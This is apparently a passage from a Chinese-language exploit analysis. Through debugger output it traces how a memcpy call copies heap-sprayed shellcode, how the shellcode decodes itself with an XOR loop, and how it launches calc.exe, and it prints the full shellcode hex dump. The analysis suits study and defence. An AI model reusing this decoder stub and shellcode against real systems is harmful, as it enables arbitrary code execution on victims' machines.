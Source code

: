 ```text
4A80B692  - FF20            jmp dword ptr ds:[eax]                   ; msvcr80.memcpy
```

调用函数 `memcpy`，各参数如下所示：

```text
0C0C0D44   03E90000  /CALL 到 memcpy
0C0C0D48   03E90000  |dest = 03E90000
0C0C0D4C   0C0C0D54  |src = 0C0C0D54
0C0C0D50   00001000  \n = 1000 (4096.)
```

然后这段复制过去的 shellcode 会被解密，并跳到 `03E900A3` 执行：

```text
03E9000E    B1 31           mov cl,0x31
03E90010    315A 18         xor dword ptr ds:[edx+0x18],ebx
03E90013    035A 18         add ebx,dword ptr ds:[edx+0x18]
03E90016    83C2 04         add edx,0x4
03E90019  ^ E2 F5           loopd short 03E90010
03E9001B    FC              cld
03E9001C    E8 82000000     call 03E900A3
```

```text
d 03E90000:

03E90000  DB C1 D9 74 24 F4 BB 81 F4 49 9E 5A 29 C9 B1 31  哿賢$艋侓I瀂)杀1
03E90010  31 5A 18 03 5A 18 83 C2 04 E2 F5 FC E8 82 00 00  1ZZ兟怩?.
03E90020  00 60 89 E5 31 C0 64 8B 50 30 8B 52 0C 8B 52 14  .`夊1纃婸0婻.婻
03E90030  8B 72 28 0F B7 4A 26 31 FF AC 3C 61 7C 02 2C 20  媟(稪&1?a|,
03E90040  C1 CF 0D 01 C7 E2 F2 52 57 8B 52 10 8B 4A 3C 8B  料.氢騌W婻婮<
03E90050  4C 11 78 E3 48 01 D1 51 8B 59 20 01 D3 8B 49 18  Lx鉎裃媃 計I
03E90060  E3 3A 49 8B 34 8B 01 D6 31 FF AC C1 CF 0D 01 C7  ?I????
03E90070  38 E0 75 F6 03 7D F8 3B 7D 24 75 E4 58 8B 58 24  8鄒?}?}$u鋁媂$
03E90080  01 D3 66 8B 0C 4B 8B 58 1C 01 D3 8B 04 8B 01 D0  觙?K媂計?
03E90090  89 44 24 24 5B 5B 61 59 5A 51 FF E0 5F 5F 5A 8B  塂$$[[aYZQ郷_Z
03E900A0  12 EB 8D 5D 6A 01 8D 85 B2 00 00 00 50 68 31 8B  雿]j崊?..Ph1
03E900B0  6F 87 FF D5 BB F0 B5 A2 56 68 A6 95 BD 9D FF D5  o?栈鸬h綕
03E900C0  3C 06 7C 0A 80 FB E0 75 05 BB 47 13 72 6F 6A 00  <|.€u籊roj.
03E900D0  53 FF D5 63 61 6C 63 2E 65 78 65 00 0C 0C 0C 0C  S誧alc.exe.....
03E900E0  0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................
```

最后弹出计算器：

```text
03E900A3    5D              pop ebp         ; ebp = 03E90021
03E900A4    6A 01           push 0x1
03E900A6    8D85 B2000000   lea eax,dword ptr ss:[ebp+0xB2] ; eax = 03E900D3 "calc.exe"
03E900AC    50              push eax
03E900AD    68 318B6F87     push 0x876F8B31
03E900B2    FFD5            call ebp
```

### 补丁
